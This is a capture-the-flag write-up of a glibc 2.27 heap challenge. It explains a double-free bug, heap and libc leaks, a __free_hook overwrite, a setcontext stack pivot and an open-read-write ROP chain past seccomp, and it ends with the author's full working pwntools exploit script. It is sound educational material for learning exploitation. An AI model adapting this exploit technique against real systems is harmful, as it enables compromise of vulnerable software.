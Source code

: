 The week before early admission deadline, perfect time to do a CTF and burn a weekend. 

## Analysis

Libc version is 2.27, we get tcache without the security checks. 

As usual, the first thing we do is run `checksec`. 

```
[+] checksec for '/home/robert/writeups/binexp/meta20/dmzf/dmzf'
Canary                        : ✓
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

Canary, NX, PIE, Full RelRO - it's a typical heap exploit challenge. The exploit path will probably involve getting a libc leak, and then overwriting one of the hooks - `__malloc_hook` or `__free_hook`. 

There's also seccomp which makes exploitation a bit more tricky. 

<!--more-->

```
$ seccomp-tools dump ./dmzf
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0a 0xc000003e  if (A != ARCH_X86_64) goto 0012
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x07 0xffffffff  if (A != 0xffffffff) goto 0012
 0005: 0x15 0x05 0x00 0x00000000  if (A == read) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0011
 0007: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000025  if (A == alarm) goto 0011
 0009: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0011
 0010: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 ```

 Luckily, the open-read-write syscalls are allowed. We'll probably need to pivot with setcontext to get a ROP chain. 


### Vulnerabilities

The key vulnerability was a double free. Luckily we were given source, making this a lot easier to reverse. 

```c++
void del_rule(string &cmd) {
	try {
		int idx = stoi(string(cmd, 4));
		if(idx < 0 || idx >= rules.size() || rules[idx] == nullptr) {
			cout << "ERROR: Invalid ID!" << endl;
			return;
		}
		delete rules[idx];
		cout << "Rule " << idx << " deleted." << endl;
	}
```

From here, this is a pretty standard 2.27 glibc heap challenge. The only difficult part is C++ heap messiness. For example, strings in c++ allocate an additional (variable?) size buffer. In order to get around this, you could free three chunks and then allocate another one which would put the string data buffer into the original string buffer. Then UAF to get a leak. 

```python
free(0) # arbitrary size, just bigger than string buffer
free(1)
free(2)

show(2)

p.recvuntil("2: ")
leak = u64(p.recv(8)) # get heap leak
print(hex(leak))

alloc((p64(leak + 0x950) + p64(0x20)).ljust(0x27, "B"))

show(1) # get libc leak
```

After getting a leak, a similar technique can be used to get an arbitrary write. From here, we have to deal with seccomp. 

Overwriting `setcontext+53` lets us use a powerful gadget, `mov    rsp,QWORD PTR [rdi+0xa0]`. Note that on some (later?) glibc versions this gadget isn't as powerful (`$rdi` is replaced with `$rdx`), where we'll have to use FSOP. 

`$rdi` is attacker controlled, being the argument to free if we overwrite free hook. Since it loads `$rsp` from an attacker controlled value, and we control the later bytes as well, we are able to set whatever we want into `[rdi+0xa0]` controlling `$rsp`. 

One small additional note, this gadget is a bit messy because it includes a `push rcx` instruction. 

```
   0x7fc490da0145 <setcontext+53>:      mov    rsp,QWORD PTR [rdi+0xa0]
   0x7fc490da014c <setcontext+60>:      mov    rbx,QWORD PTR [rdi+0x80]
   0x7fc490da0153 <setcontext+67>:      mov    rbp,QWORD PTR [rdi+0x78]
   0x7fc490da0157 <setcontext+71>:      mov    r12,QWORD PTR [rdi+0x48]
   0x7fc490da015b <setcontext+75>:      mov    r13,QWORD PTR [rdi+0x50]
   0x7fc490da015f <setcontext+79>:      mov    r14,QWORD PTR [rdi+0x58]
   0x7fc490da0163 <setcontext+83>:      mov    r15,QWORD PTR [rdi+0x60]
   0x7fc490da0167 <setcontext+87>:      mov    rcx,QWORD PTR [rdi+0xa8]
   0x7fc490da016e <setcontext+94>:      push   rcx
   0x7fc490da016f <setcontext+95>:      mov    rsi,QWORD PTR [rdi+0x70]
   0x7fc490da0173 <setcontext+99>:      mov    rdx,QWORD PTR [rdi+0x88]
   0x7fc490da017a <setcontext+106>:     mov    rcx,QWORD PTR [rdi+0x98]
   0x7fc490da0181 <setcontext+113>:     mov    r8,QWORD PTR [rdi+0x28]
   0x7fc490da0185 <setcontext+117>:     mov    r9,QWORD PTR [rdi+0x30]
   0x7fc490da0189 <setcontext+121>:     mov    rdi,QWORD PTR [rdi+0x68]
   0x7fc490da018d <setcontext+125>:     xor    eax,eax
   0x7fc490da018f <setcontext+127>:     ret
```

Luckily, `$rcx` is loaded from `$rdi+0xa8` which is also attacker controlled. We simply "ret to ret", or more verbosely return to a "ret" gadget, and then we're back on our fake stack. 

Due to string destructor, we don't even have to manually free the object. Allocating a string is enough to pwn after we overwrite `__free_hook`. 

```python
alloc((
  p64(lleak + libc.symbols["setcontext"] + 53)
  + "C" * 0x94 # "4" because of len("add ")
  + p64(leak + 0x562127af0fd0 - 0x562127af0370) # rsp
  + p64(prdi + 1) # prdi + 1 => ret
).ljust(0x300, "A"))
```

My full solve script can be found below, or as on [GitHub](https://github.com/chen-robert/writeups/blob/master/binexp/meta20/dmzf/solve.py). 

```python
  
from pwn import *

e = ELF("./dmzf")
libc = ELF("./libc.so.6")

context.binary = e.path

is_remote = "--remote" in sys.argv
def debug():
  if not is_remote:
    gdb.attach(p, "x/10gx  &_Z5rulesB5cxx11")

if is_remote:
  p = remote("host1.metaproblems.com", 5810)
else:
  p = process(e.path, env={"LD_PRELOAD": libc.path + " ./libcstdc++.so ./libseccomp.so.2.4.3"})

def alloc(s):
  p.sendlineafter("> ", "add " + s)

def free(idx):
  p.sendlineafter("> ", "del " + str(idx))

def show(idx):
  p.sendlineafter("> ", "view " + str(idx))

alloc("A" * 0x37)
alloc("A" * 0x37)
alloc("A" * 0x37)
alloc("A" * 0x410)
alloc("A" * 0x410)

free(3)

free(0)
free(1)
free(2)

show(2)

p.recvuntil("2: ")
leak = u64(p.recv(8))
print(hex(leak))

alloc((p64(leak + 0x950) + p64(0x20)).ljust(0x27, "B"))

show(1)

p.recvuntil("1: ")
lleak = u64(p.recv(8)) - 0x7f925eca0270 + 0x00007f925e8b4000 
print(hex(lleak))

alloc("A" * 0x300)
alloc("A" * 0x300)

free(6)
free(7)

alloc((p64(leak +  0x000056306d4c7fd0 - 0x56306d4c7370) + p64(0x20)).ljust(0x27, "B"))

free(6)



alloc((
  p64(lleak + libc.symbols["__free_hook"])
).ljust(0x300))
debug()

prdi = 0x000275e7 + lleak
prsi =  0x0016317c + lleak
prax =  0x00043b68 + lleak
prdx = 0x00001b9e + lleak
sys = 0x001402a7 + lleak
alloc((
(
  p64(prax) + p64(2)
+ p64(prdi) + p64(leak + 0x562127af0fd0 - 0x562127af0370 + 0x200)
+ p64(prsi) + p64(0)
+ p64(prdx) + p64(0)
+ p64(sys)

+ p64(prax) + p64(0)
+ p64(prdi) + p64(3)
+ p64(prsi) + p64(leak)
+ p64(prdx) + p64(0x100)
+ p64(sys)

+ p64(prax) + p64(1)
+ p64(prdi) + p64(1)
+ p64(prsi) + p64(leak)
+ p64(prdx) + p64(0x100)
+ p64(sys)
+ p64(0x1336)
).ljust(0x200, "A")
+ "/dmzf/flag.txt\x00"
).ljust(0x300, "a"))

alloc((
  p64(lleak + libc.symbols["setcontext"] + 53)
  + "C" * 0x94 + p64(leak + 0x562127af0fd0 - 0x562127af0370) + p64(prdi + 1)
).ljust(0x300, "A"))



p.interactive()
```

